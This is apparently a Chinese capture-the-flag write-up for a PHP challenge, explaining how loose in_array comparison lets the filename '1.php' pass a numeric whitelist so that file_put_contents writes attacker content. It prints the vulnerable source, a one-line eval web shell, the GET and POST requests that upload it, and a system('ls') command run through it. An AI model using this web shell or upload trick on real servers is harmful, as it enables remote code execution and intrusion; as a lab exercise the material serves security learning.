



```
 <?php

/*
# -*- coding: utf-8 -*-
# @Author: h1xa
# @Date:   2020-09-16 11:25:09
# @Last Modified by:   h1xa
# @Last Modified time: 2020-09-18 22:36:12
# @link: https://ctfer.com

*/

highlight_file(__FILE__);
$allow = array();
for ($i=36; $i < 0x36d; $i++) { 
    array_push($allow, rand(1,$i));
}
if(isset($_GET['n']) && in_array($_GET['n'], $allow)){
    file_put_contents($_GET['n'], $_POST['content']);
}

?>

```

分析源码

循环36--877

将1-877随机数添加到数组allow

get传参n，如果n在数组allow中，则将post传入的参数content写入n中

in_array未设置第三个参数，这意味着它会默认采用弱类型比较


即1.php可以绕过==


POST传入一句话木马

```
<?php @eval($_POST['a']);?>
```


GET传入

```
?n=1.php
```

POST传入

```
content=<?php @eval($_POST['a']);?>
```


访问1.php



空页面，说明一句话木马被成功解析


尝试执行命令

```
a=system("ls");
```




